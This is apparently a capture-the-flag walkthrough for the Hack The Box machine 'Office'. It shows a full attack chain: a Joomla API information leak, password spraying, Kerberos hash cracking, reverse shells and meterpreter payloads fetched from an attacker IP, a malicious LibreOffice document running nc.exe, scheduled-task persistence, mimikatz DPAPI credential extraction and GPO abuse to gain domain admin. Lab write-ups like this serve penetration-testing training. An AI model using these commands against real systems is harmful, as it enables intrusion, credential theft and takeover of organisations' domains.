





---
---

# HTB - Office

```bash
nmap 10.129.22.81 -Pn -p- -T5

```


```bash
sudo nmap -sUV -T4 -F --version-intensity 0 10.129.22.81

```


```bash
nmap 10.129.22.81 -A -sC

```


- Add office.htb to /etc/hosts

- Subdomain enumeration:

```bash
gobuster dns -d office.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -r office.htb:53

```


- Extension search on office.htb:

```bash
dirsearch -u http://office.htb/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt -t 50

```


/robots.txt


- Directory search - same as robots.txt

`dirsearch -u http://office.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50`


- Dirsearch the **https**:

```bash
dirsearch -u https://office.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50

```


/joomla


https://office.htb/joomla/


- Given **administrator** - it asks to touch the security key
So we know administrator is a valid user


- Did another dirsearch on the http domain:


- Joomla version:


- The tool **Juumla** can come in handy to search for vulnerabilities:



**<u>CVE-2023-23752:</u>**

- Googling this version - it has a vulnerability:

**CVE-2023-23752**

<https://vulncheck.com/blog/joomla-for-rce>


- To test for vulnerability:

```bash
curl -v http://office.htb/api/index.php/v1/config/application?public=true

```


- There is also a github project that outputs it nicely:
<https://github.com/ThatNotEasy/CVE-2023-23752>


- Joomla SQL DB credentials:
**root : H0lOgrams4reTakIng0Ver754!**

- The SQL DB is only exposed on the localhost so we can't do anything remotely but the password might be
reused for something else

- Leak the user database:

```bash
curl -v http://office.htb/api/index.php/v1/users?public=true

```



"name":"Tony Stark","username":"Administrator","email":"**Administrator@holography.htb**"

- Vind valid users:

```bash
./kerbrute userenum --dc 10.129.23.162 -d office.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -o validusers.txt

cat validusers.txt | grep "VALID" | cut -d ":" -f 4 | cut -d " " -f 2 > users.txt

```
- See if any of them are vulnerable to ASRepRoasting:

```bash
impacket-GetNPUsers office.htb/ -users validusers.txt -no-pass -dc-ip 10.129.23.162

```


But none are

- Extract the usernames:


- Check all the users against the password found for the Joomla SQL DB:

```bash
crackmapexec smb 10.129.23.162 -u users.txt -p "H0lOgrams4reTakIng0Ver754\!"

```


We find a valid user.

```bash
smbmap -H office.htb -u <user_found> -p "H0lOgrams4reTakIng0Ver754\!"

```


```bash
enum4linux -u "<user_found>" -p "H0lOgrams4reTakIng0Ver754\!" -a office.htb

```
(The **-a** IP/host, needs to come at the end)


- Domain users:


- Bind to SOC Analysis is OK:


- Domain Groups:


- Connect to share:

```bash
smbclient -U <user_found>%H0lOgrams4reTakIng0Ver754! \\\\office.htb\\"SOC Analysis"

```


- Download the PCAP

Go to: Statistics -\> Protocol Hierarchy


- Apply Kerberos as Filter


- Following the stream:



- The first line (no.1908) has the smallest length (so least amount of data):
The padata-value tree doesn't have extra information


- Clicking on the one that has the biggest length (no.1917). Expand all Kerberos subtrees:


- Go down to **Kerberos -\> as-req -\> padata -\> PA-DATA pA-ENC-TIMESTAMP -\> padata-type -\> padata-value -\> cipher**

- We get the hash:


- Copy the value:


**Hash Type:** eTYPE-AES256-CTS-HMAC-SHA1-96 (18)

(Kerberos 5, etype 18, Pre-Auth )

**Hash:** a16f4806da…….a3765386f5fc


- First we need to change it to the right format -
Using the details from the TCP stream and the hashcat wiki:

**\$krb5pa\$18\$tstark\$OFFICE.HTB\$**a16f4806da…….a3765386f5fc

- Crack with hashcat:

```bash
hashcat -m 19900 -a 0 hash /usr/share/wordlists/rockyou.txt

```


- Found credentials:
**tstark : \<password\>**

From previous enumeration, we know:
- The login page for the Joomla Administration

`http://office.htb/administrator`

- The user Tony Stark (tstark) was leaked from the Joomla database as a SuperUser and his username is **Administrator**

- The password for Administrator is therefore **the same as tstark's** password.

- Login:


- We are met with the admin panel:


- Go to:
**System -\> Templates -\> Site Templates -\> "Template name" (Cassiopeia Details and Files) -\> error.php**


- To get a reverse shell on the **Windows** box:

- Edit **error.php** and add in the PHP Ivan Sincek rev shell:

- Make sure **Shell: powershell**
- 
- 
  - Set up listener

- Navigate to  `http://office.htb/templates/cassiopeia/error.php`

- We have a shell as web_account:


```bash
whoami /all

```


- More stable meterpreter shell:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.66 LPORT=4445 -f exe -o shell.exe

```
- Upload meterpreter shell to target :

```bash
(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.66:8082/shell.exe', 'C:\xampp\htdocs\joomla\templates\cassiopeia\shell.exe')

```
- Start meterpreter multi/handler listener on the same port and run the shell.exe on the target

- Download RunasCs:
<https://github.com/antonioCoco/RunasCs/releases/tag/v1.5>

- Upload RunasCs.exe to victim (from meterpreter session):

```bash
upload RunasCs.exe

```
- Create another meterpreter reverse shell on a different port and upload it:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.66 LPORT=4447 -f exe -o shell2.exe

(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.66:8082/shell2.exe', 'C:\Users\Public\Downloads\shell2.exe')

```
- Set up meterpreter multi/handler listener

- Run:

```bash
RunasCs.exe tstark <password>".\shell2.exe"

```


- We are user tstark:




```bash
query user

```


**Ppotts has a session open**

- LibreOffice on a Domain Controller stands out (as well as this room being called Office)


- Get the version:

```powershell
$libreofficeInstallPath = "C:\Program Files\LibreOffice 5"
$libreofficeVersion = (Get-Item "$libreofficeInstallPath\program\soffice.bin").VersionInfo.FileVersion
Write-Host "LibreOffice Version: $libreofficeVersion"

```


- **CVE-2023-2255:**
<https://github.com/elweth-sec/CVE-2023-2255/blob/main/CVE-2023-2255.py>

Git clone and use the py script to create a malicious file:

```bash
python3 CVE-2023-2255.py --cmd "C:\users\Public\nc.exe 10.10.14.66 5555 -e powershell" --output form.odt

```


It injects it in contents.xml:


- Upload nc.exe to the target

- Running netstat -pant on the victim we can see:


A webserver running on port 8083

- **<u>Create a pivot into the internal network:</u>**

- Upload chisel to the victim

- On Kali:

```bash
chisel server -p 8888 --reverse

```
- On target:

```bash
.\chisel.exe client 10.10.14.66:8888 R:socks

```
- Use proxychains on Kali:

```bash
proxychains nmap office.htb -Pn -sT -vvv

```
- Or to use a browser (if there was an internal web server):
  - Download Foxyproxy
  - Add a proxy - **SOCKS5 127.0.0.1:1080**


- Accessing the internal webserver


- We can upload a form (the malicious form we made):


- Set up a listener

- Wait for someone to open the form

- Shell as **ppotts**:


whoami /priv


He has SeMachineAccountPrivilege set.

- Persistence in case we lose the session:

```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.14.66; set lport 4449; exploit"
```

```bash
schtasks /create /sc minute /mo 1 /tn "a_innocent" /tr "C:\users\Public\shellppotts.exe" /ru "ppotts"
```
**<u>Crack DPAPI stored credentials:</u>**

- From cmd:

```bash
vaultcmd /listcreds:"Windows Credentials" /all

```


- From mimikatz

```bash
vault::list

```




**So if it isn't in the directory that mimikatz says, look in the other directories as well**

The files will be hidden, so doing ls or dir won't show anything


To view hidden items do:

```bash
Get-Childitem -Hidden C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials

```


- In Mimikatz:

```bash
dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\84F1CAEEBF466550F4967858F9353FB4

```
Everything is still encrypted but we need to find the correlating Maskterkey (guidMasterKey)


Like this:


Here we can see the Masterkey that matches up - **191d3f9d-7959-4b4d-a520-a444853c47eb**

- The cache is empty atm:

```bash
dpapi::cache

```


- Now decrypt the masterkey:

```bash
dpapi::masterkey /in:C:\Users\PPotts\AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb /rpc

```
- Looking at the cache now:


- Now we can decrypt the encrypted credentials:

```bash
dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\\84F1CAEEBF466550F4967858F9353FB4 /masterkey:87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166

```


- Each of the files will hold some form of credentials

UserName : OFFICE\\**HHogan**

CredentialBlob : **\<password\>**

- Login with WinRM:

```bash
evil-winrm -i 10.129.24.92 -u hhogan -p "<password>"

```


```bash
whoami /all

```


Hhogan is part of the **GPO Managers**

- Upload Sharphound and run:

```bash
.\SharpHound.exe --CollectionMethods All --Domain office.htb --ZipFileName loot.zip

```
- Looking in BloodHound:
GPO Managers has GenericWrite to the Default Domain Controller Policy.


- Download SharpGPOAbuse:
<https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master>

- Copy SharpGPOAbuse.exe to the Windows target machine and run:

```bash
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount hhogan --GPOName "DEFAULT DOMAIN CONTROLLERS POLICY"

```
**OR**

```bash
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Debug" --Author office.htb\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators hhogan /add" --GPOName "DEFAULT DOMAIN CONTROLLERS POLICY"

```
(The first one seems to stay whereas this second command, the user gets wiped from the admin group after a few minutes)

```bash
gpupdate /force

```
- Check localgroup:

```bash
net localgroup administrators

```


- HHogan is now part of the local Administrators group:


- Trying to access to root.flag in the Administrator's directory we get this:


- Close the current evil-winrm session and just relaunch it, and:

